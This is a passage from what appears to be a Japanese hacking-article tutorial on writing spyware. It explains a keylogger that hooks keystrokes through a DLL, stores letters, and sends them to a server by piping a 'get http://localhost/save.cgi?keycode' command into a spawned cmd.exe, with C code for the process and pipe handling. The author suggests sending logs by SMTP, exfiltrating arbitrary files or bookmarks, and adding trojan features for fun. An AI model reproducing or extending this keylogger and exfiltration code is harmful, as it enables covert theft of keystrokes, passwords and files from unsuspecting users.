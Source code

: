 　WM_CREATEでMySetHookを呼び、WM_DESTROYでMyEndHookを呼んでいます。どち
らもDLL側の関数でキーフックの開始、終了を制御します。WM_KEYHOOKはフック
されたキーをもらいますのでA\-Zのいずれかの文字ならばMainMemory変数に保存
させます。一定の長さが溜まったらSendLogDataに渡すという部分は同じです。

　SendLogData関数はまずCreateProcessでcmd.exeを起動させます。そして、
cmd.exeの標準入力に"get http://localhost/save.cgi?keycode"というような送
信処理を任せる文字列を入力します。よってcmd.exeをあらかじめパイプで繋い
でおく必要があります。

```
    PROCESS_INFORMATION PI;
    if(CreateProcess(NULL, "cmd.exe", NULL, NULL, TRUE, 
        0, NULL, NULL, &SI, &PI) !\= TRUE){
            CloseHandle(fd_read);
            CloseHandle(fd_write);
            CloseHandle(pfd_in[R]);
            CloseHandle(pfd_out[W]);
            return TRUE;
    }
```

　ここで、プロセスを起動しています。この処理の前に標準入出力をパイプで繋
ぐ処理があります。このあとに標準入力にデータを渡し、cmd.exeを終了させる
ためにさらに"exit\r\n"を入力してプロセスを終了します。

```
    DWORD sLen;
    WriteFile(fd_read, SendAllData, (int)strlen(SendAllData), &sLen, NULL);
    FlushFileBuffers(fd_read);

    WriteFile(fd_read, "exit\r\n", 6, &sLen, NULL);
    FlushFileBuffers(fd_read);

    WaitForSingleObject(PI.hProcess, 3000);
```

　こんな感じです。パイプやプロセス生成、スレッドといったものは前回の記事
で説明していますので今回は省きます。実行してみると、ＩＥ版と同様にデータ
をサーバ（save.cgi）に送信できることが分かります。

　さて、これで一応ひととおり終了です。今回は３つの方法でスパイウェアを作
ってみました。といってもすべてHTTP関連でしたが、もちろんメール送信にして
もよいです。SMTPでログをメールで送るなんてのでもよいと思いますし、CGI側
でsendmailを起動してメールで送るという形でも面白いでしょう。他にも実現方
法はいろいろとあると思いますので考えてみてください。


### 0x07 最後に

　さて、いかがだったでしょうか。今回は内部のデータを外部に送信するソフト
ウェアを作ってみました。ご覧のとおりスパイウェアといっても実現方法はたく
さんあります。今回はキーログを送信してみましたが、もちろん任意のファイル
やお気に入りのＨＰアドレスなど他にもさまざまな情報に対応できると思います。
タイトルは違えど前回の記事とネタは似てますのでトロイの機能追加などをして
みても楽しめるかと思います（というか私はそうやって楽しんでました^^）。さ
て最後になりましたがここまで付き合って読んでくださった方本当に有り難うご
ざいました。
